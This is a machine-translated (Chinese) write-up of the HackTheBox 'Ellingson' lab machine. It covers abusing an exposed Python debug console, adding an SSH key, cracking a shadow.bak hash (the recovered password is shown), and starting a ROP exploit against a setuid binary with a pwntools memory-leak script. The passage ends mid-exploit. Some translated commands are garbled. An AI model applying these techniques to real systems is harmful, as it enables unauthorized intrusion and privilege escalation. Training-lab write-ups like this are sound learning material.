# 黑客盒子——艾林森

> 原文：<https://infosecwriteups.com/hackthebox-ellingson-7c9a8a87dccb?source=collection_archive---------0----------------------->

这是一篇关于我如何解决黑客盒子里的 Ellingson 的文章



[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

像往常一样，我试图解释我是如何从机器上理解这些概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。

# 关于盒子:

**Ellingson** 是一台我以为因为根部问题而无法解决的机器。它从一个错误配置的 web 服务器开始，暴露了一个解释器，允许我编辑文件并通过 ssh 登录。然后我看到我是 **adm** 组的一员，并且我拥有对 shadow.bak 文件的读取权限。破解其中一个散列，它允许我登录以获取 user.txt。然后我看到一个具有根权限的 setuid 二进制文件，然后我通过使用 **ROP** (面向返回的编程)来利用它获得根 shell。

isclaimer:我对二进制开发非常陌生，即使我在大学时遇到过汇编语言，我也没有把它当回事，而且我从未想过我会在我选择从事的职业中遇到它。

# 侦察:

我首先通过调用命令运行初始 nmap 扫描，将其保存到我的 nmap 目录:

```
namap -sV -sC -oA nmap/initial 10.10.10.139
```

输出是:

```
Nmap scan report for 10.10.10.139
Host is up (0.32s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:e8:f1:2a:80:62:de:7e:02:40:a1:f4:30:d2:88:a6 (RSA)
|   256 c8:02:cf:a0:f2:d8:5d:4f:7d:c7:66:0b:4d:5d:0b:df (ECDSA)
|_  256 a5:a9:95:f5:4a:f4:ae:f8:b6:37:92:b8:9a:2a:b4:66 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-title: Ellingson Mineral Corp
|_Requested resource was [http://10.10.10.139/index](http://10.10.10.139/index)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
```

看到只打开了 SSH 和 HTTP，我先检查 HTTP。

# 端口 80(nginx)

我看到一家公司的登录页面似乎被黑了。


向下浏览页面，我看到可能的用户名，因为他们似乎是为 Ellingson 公司工作。记下他们的名字，甚至他们的姓氏，因为这可以在以后用作密码。


可能的用户名有:

```
hal, margo, eugene, duke, wallace, belford, ellingson
```

我查看网站上的文章。

## 第一条


```
*A recent unknown intruder penetrated using a super user account giving him access to our entire system. Yesterday the ballest program for a supertanker training model mistakenly thought the vessel was empty and flooded it's tanks. This caused the vessel to capsize, a virus planted within the Ellingson system claimed responsibility and threatened to capsize more vessels unless five million dollars are transfered to their accounts.*
```

据说他们的公司被一个超级用户账号入侵了。

## 第二条



```
*Due to the recent security issues we have implemented protections to block brute-force attacks against network services. As a result if you attempt to log into a service more then 5 times in 1 minute you will have your access blocked for 5 minutes. Additional malicious activity may also result in your connection being blocked, please keep this in mind and do not request resets if you lock yourself out ... take the 5 minutes and ponder where you went wrong :)*
```

查第 2 条，好像有一个阻止暴力破解的机制。所以我不能只是启动一个目录扫描或者如果我找到一个登录页面，我不能只是使用像 Hydra 或 wfuzz 这样的工具。

## 第三条



```
*We have recently detected suspicious activity on the network. Please make sure you change your password regularly and read my carefully prepared memo on the most commonly used passwords. Now as I so meticulously pointed out the most common passwords are. Love, Secret, Sex and God -The Plague*
```

查第三条，有提醒定期更换密码，不要使用最常用的密码。常见的密码是爱情、秘密、性和上帝。我可以记下这一点，因为以后我可能会使用这些密码登录。

# 最初的立足点

注意，网址是 10.10.10.139/articles/ <article_number>。然后，我尝试访问第 4 篇文章，看看是否有隐藏的文章，或者页面是否会崩溃。</article_number>

## 第四条

检查第 4 条，我得到一个内置的。索引错误，因为数字“4”超出范围。



向下滚动，我看到它使用了 [WSGI](https://www.fullstackpython.com/wsgi-servers.html) 。它还说当我把鼠标放在框架上时，我可以执行代码。



鼠标移到旁边:



我得到一个交互式外壳:



然后我导入操作系统，然后尝试执行命令。



我检查我的有效用户 id 及其 1001。然后，我尝试通过将/etc/passwd 加载到我的 filehandler(名为 file:



我现在可以看到可能的用户名。这些是网页上的相同用户名。因为我的 UID 是 1001，所以我实际上是用户 **hal** 。

我现在将尝试列出我的主目录



由于 hal 可以 ssh，我现在尝试将我的公钥添加到 authorized_keys 中，这样我就可以通过 ssh 登录了。我首先制作一对密钥:



我打开文件并添加我的公钥(我将 public_key 设置为生成的公钥):


现在，当我以用户 hal 的身份使用 ssh 时，我就进入了。



## 枚举 hal

我通常做的是运行 [LinEnum](https://github.com/rebootuser/LinEnum) ，但由于某种原因，我无法建立到我的 http 服务器的连接。



我也试着 ping 自己，但是没用:


我记得我以用户 hal 的身份拥有 ssh 访问权限，然后我使用 scp 将 LinEnum 传输到机器:



现在我有了 LinEnum，我运行它:



运行 LinEnum 后，我发现用户 hal 是 adm 组的一部分。



> **adm:** 组 adm 用于系统监控任务。该组的成员可以读取/var/log 中的许多日志文件，并且可以使用 xconsole。历史上，/var/log 是/usr/adm(以及后来的/var/adm)，因此是该组的名称。

在这里阅读更多关于 Debian 默认系统组的信息:

 [## Debian 默认系统组描述

### root 之后是默认用户列表(以及相应的组): Root(通常)是超级用户。守护进程:一些…

wiki.gacq.com](https://wiki.gacq.com/index.php/Debian_default_system_groups_description) 

如果我先运行 id，我可以在不运行 LinEnum 的情况下捕获它。

```
hal@ellingson:/tmp$ id
uid=1001(hal) gid=1001(hal) groups=1001(hal),4(adm)
```

然后，我通过调用以下命令来检查 adm 组拥有的文件:

```
find / -group adm 2>/dev/null
```

输出是:



shadow.bak 文件很有意思。然后我检查我对它的权限:


组 adm 具有读取权限，我读取它并找到哈希:



因为散列从$6$开始，所以这些是 Unix 的 SHA-512 散列。我调用 *hashcat - example-hashes，*寻找这个散列的模式号。



在破解使用 rockyou 找到的散列之前，请记住第 3 篇文章中所说的内容:

```
*We have recently detected suspicious activity on the network. Please make sure you change your password regularly and read my carefully prepared memo on the most commonly used passwords. Now as I so meticulously pointed out the most common passwords are.* ***Love, Secret, Sex and God*** *-The Plague*
```

由于密码重用很常见，因此我尝试通过删除上述常见密码并将其保存到名为 rockyou.modified 的文件中来减少单词列表 rockyou。

```
grep -iE 'Love|Secret|Sex|God' /usr/share/wordlists/rockyou.txt > rockyou.modified
```

注意，还是 277，308 行。LOL。

```
root@kali:~/Documents/htb/boxes/ellingson/writeup# wc -l rockyou.modified 
277308 rockyou.modified
```

我运行 hashcat:

```
hashcat -a 1800 rockyou.modified ellingson.hashes
```

我破解了玛戈的哈希。

```
$6$Lv8rcvK8$la/ms1mYal7QDxbXUYiD7LAADl.yE4H7mUGF6eTlYaZ2DVPi9z1bDIzqGZFwWrPkRrB9G/kbd72poeAnyJL4c1:**iamgod$08**
```

然后我试着用凭证 ssh**Margo:iam god $ 08**



我进去了，现在我可以读 user.txt 了:

```
margo@ellingson:~$ cat user.txt 
**d0ff9e3f9da8bb...**
```

# 获取根目录:

iscalimer:这才是乐趣真正开始的地方。我不会试图解释这方面的每一个细节，因为我自己还在学习。在此之前，我只做过最少的二进制开发，所以我可能会误导您。我建议您查看一下 0xdf、ippsec 和 snowscan 的演练，因为它们会比我更好地解释这一点。我的目的是告诉你我是如何得到根壳的。观看 [ippsec 的 bitterman 视频](https://www.youtube.com/watch?v=6S4A2nhHdWg)是一个很好的开始。我的代码看起来会像他在视频里做的一样。

当试图提升特权时，我首先检查的是设置了 SUID 位的二进制文件。在权限上设置的 SUID 位在所有者的上下文中运行。这意味着如果我可以运行程序(root 用户拥有的程序)并利用漏洞，我就有可能在 root 用户的上下文中执行代码。我可以通过调用以下命令来检查它:

```
find / -perm -4000 2>/dev/null
```

输出是:



正在检查其权限:



然后我试着运行二进制文件并输入垃圾数据:



因为/usr/bin/garbage 非常突出，所以我将一个副本发送到我的本地机器上检查它，并对它运行 file:

```
root@kali:~/Documents/htb/boxes/ellingson/rop# file garbage
garbage: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=de1fde9d14eea8a6dfd050fffe52bba92a339959, not stripped
```

是 64 位精灵。

然后，我尝试运行二进制文件并输入一些字符:



然后我试着抛出许多 A，看看是否能触发分段错误，我得到了一个。



分段错误基本上意味着我们已经覆盖了 RBP 和返回指针。请注意，返回指针存储在堆栈中，以便在执行后将控制返回给指令指针。因为我们已经用内存地址 0x41414141 覆盖了它，所以它是无效的。看到我得到了一个分段错误，然后我将二进制文件加载到 gdb 以进一步检查:



我使用的是 [PEDA](https://github.com/longld/peda) ，在进行二进制开发时非常方便。checksec 命令检查二进制文件的安全选项。

*Stack Canary 基本上是在缓冲区和返回指针之后的堆栈上注入一个 4 字节的值，如果该值被覆盖，就终止程序。*

*RELRO 对 ELF 段重新排序，并使 GOT(全局偏移表)为只读。*

*PIE(位置独立的可执行文件)在我们运行程序时随机化内存映射的位置(基本上这是 ASLR)。*

稍后我会点击 NX。我可以通过在 libc.so.6 上运行 ldd 来验证在机器上启用了 ASLR，我认为这是 glibc 库的一个符号链接:



看到 NX 被启用，这基本上是 DEP(数据执行保护)，我不能简单地在堆栈上执行命令。

# 面向返回的程序设计

这种攻击基于 ret2libc 攻击，用于绕过 DEP(数据执行保护),后者阻止您在内存中运行命令，使代码更难运行。这种攻击有能力击败 ASLR，不需要你注入代码。我将基本上利用指令序列(称为小工具)并创建某种“外壳代码”。

## 小玩意儿

小工具是执行所需操作的指令序列(通常以 return 结尾),一起使用以实现目标。

回到二进制文件，我将它加载到 gdb，并使用 pattern_create 创建一个 300 个字符的模式:



我得到一个分段错误。



请注意，在 64 位二进制文件中，您不会直接被 IP 覆盖。对于 32 位二进制，寄存器是 EAX、EBX 等。在 64 位二进制文件中，它们以 r 开头。

## exploit.py(第 1/3 部分)

为了识别溢出发生的位置，我将在 gdb 内部调用这个函数，并对 pattern_offset 运行结果:

```
x/xg $rsp
```



看到 136 后开始溢出。接下来，我需要获取 PLT(过程链接表)、GOT(全局偏移量表)的地址，并使二进制泄漏成为一个地址:



获取 PLT 地址(调用存在于二进制文件中):

```
plt_put = 0x401050
```

获取 GOT 地址:

```
got_put = 0x404028
```

我还使用 [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) 来获取我们的小工具的地址位置:



```
pop_rdi = 0x40179b
```

所以脚本看起来是这样的:

```
from pwn import *#context(terminal=['tmux', 'new-window'])
p = process('./garbage')
#p = gdb.debug('./garbage', 'b main')
context(os="linux", arch="amd64")
#context.log_level = 'DEBUG'#Stage 1 - Memory Leak
log.success("Starting first stage:")
plt_put = p64(0x401050)
got_put = p64(0x404028)
pop_rdi = p64(0x40179b)
junk = "A" *136payload = junk + pop_rdi + got_put + plt_put 
p.sendline(payload)p.recvline()
p.recvline()
```

请注意，我需要将地址放入 64 位格式，因此是 p64。

当我运行脚本时:

